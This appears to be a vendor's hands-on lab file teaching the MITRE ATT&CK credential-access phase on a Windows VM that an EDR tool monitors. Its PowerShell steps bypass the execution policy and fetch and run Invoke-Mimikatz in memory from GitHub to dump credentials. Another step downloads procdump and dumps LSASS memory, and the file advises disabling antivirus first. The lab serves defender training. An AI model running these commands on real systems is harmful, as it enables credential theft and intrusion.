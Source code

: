 ```yaml
---
title: ATT&CK - Credential Access Phase
description: Introduce post-compromise attack behaviors and EDR defenses
author: Chris Gerritz, Datto
created: 02/19/2023
achievements:
duration: 10
range:
- Windows
applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
- Office
- Adobe Reader
external:
- attack.mitre.org
- rightofboom.infocyte.com
- raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1
- live.sysinternals.com/procdump.exe
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. We will perform post-compromise behaviors that an attacker would run once they compromised a system within the network.  This system has Datto EDR installed for monitoring so we will be able to view these commands from the defender's perspective as well.

Credential Access consists of techniques for stealing credentials like account names and passwords. Techniques used to get credentials include keylogging or credential dumping. Using legitimate credentials can give adversaries access to systems, make them harder to detect, and provide the opportunity to create more accounts to help achieve their goals

The virtual machine has some dummy users to mimic a specific type of workstation that might be found in a business enviroment:

Dummy users:
- Joe from Accounting: 
  - `net user joe Password1! /ADD /FULLNAME:"Joe - Accounting"`
- Samson from Accounting
  - `net user samson Password1! /ADD /FULLNAME:"Samson - Accounting"`
- Brenda from IT
  - `net user brenda Password1! /ADD /FULLNAME:"Branda - IT Helpdesk"`

---

## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs: KNOWLEDGE,UNDERSTAND, APPLY, ANALYZE, EVALUATE, CREATE
- https://www.teachthought.com/critical-thinking/blooms-taxonomy-verbs-2/
-->
1. Understand the Credential Access phase of an attack
2. Demonstrate the use of common tools for stealing passwords
   

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |


## Preparation Instructions

Ignore this if you already ran it in a previous lab and are re-using the same Powershell window.

1. Open powershell as an administrator
	- Right click Powershell
	- Click "Run as Administrator"
2. Prepare the enviroment with some variables we will use later
	- Run the following:
	```PowerShell
	#Define a random number (This will be used to force Datto EDR not to deduplicate repeated commands during testing)
	$n = 1000+$(Get-Random -Max 999)
	# Bypass signed script controls
	Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass
	```

## Instructions

For each of these labs, you will need your Powershell window open. You can use the same window for all labs. You will be copying and pasting commands into the terminal and then evaluating the output.

w> All labs require you to be running as an administrator. 


### 1. Credential Dumping with Mimikatz
> *Mimikatz is one of the most well known credential access and dumping tools used by hackers today. It can extract passwords, unencode them and sometimes unencrypt them.*

w> Mimikatz almost always will flag on antivirus so it's important to disable antivirus tools prior to running it.

Execute a **Credential Dump with Mimikatz**. 
- MITRE ATT&CK Technique: [ATT&CK T1003 - Credential Access - Credential Dumping](https://attack.mitre.org/techniques/T1003)
- Copy and paste this command into the terminal:
	```PowerShell
	# Mimikatz
	Write-Host -ForegroundColor Cyan "Executing Credential Dump - T1003 - Credential Dumping with Mimikatz"
	$MimikatzURL = 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1'
	$cmd = "IEX (New-Object Net.WebClient).DownloadString('$MimikatzURL'); Invoke-Mimikatz -DumpCreds; Start-Sleep -m $n"
	powershell.exe -command $cmd
	```



### 2. Credential Dumping with procdump.exe
> *Because Mimikatz is so commonly found by antivirus, some attackers will use built-in windows utilities to dump the memory of the security process, LSASS.exe, and then use mimikatz on the dump following exfiltration.*

Execute a **Credential Dump with Procdump**. 
- MITRE ATT&CK Technique: [ATT&CK T1003 - Credential Access - Credential Dumping](https://attack.mitre.org/techniques/T1003)
- Copy and paste this command into the terminal:
	```PowerShell
	# Extract LSASS memory with Procdump
	Write-Host -ForegroundColor Cyan "Executing Credential Dump - T1003 - Credential Dumping with Mimikatz"
	Write-Host -ForegroundColor Cyan  "Downloading ProcDump.exe"
	Invoke-WebRequest -Uri http://live.sysinternals.com/procdump.exe -OutFile "$Env:temp\procdump.exe"
	Write-Host "Dumping LSASS memory with ProcDump.exe to extract passwords and tokens"
	& "$Env:temp\procdump.exe" -ma lsass.exe lsass.dmp -accepteula
	```